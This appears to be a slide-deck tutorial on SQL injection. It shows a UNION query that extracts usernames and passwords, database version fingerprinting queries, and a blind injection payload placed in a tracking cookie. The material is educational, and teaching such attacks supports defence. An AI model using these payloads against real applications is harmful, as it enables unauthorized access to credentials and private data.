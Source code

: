 ----

## UNION attacks

```
SELECT * FROM products
WHERE category = 'Gifts'
UNION
SELECT username, password
FROM users --'
```

---

## Examining the database

| Database type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

---

## Blind SQL injection

* the application does not return the results of the SQL query within its responses
* nor the details of any database errors
* can still be exploited to access unauthorized data

----

## Blind SQL injection

```
Cookie: TrackingId=xyz
```

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz'
```

If the query returns `True` we get a 'Welcome back' message, if not we don't.

----

## Blind SQL injection

```
Cookie: TrackingId=xyz' AND '1'='1
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND '1' = '1'
```
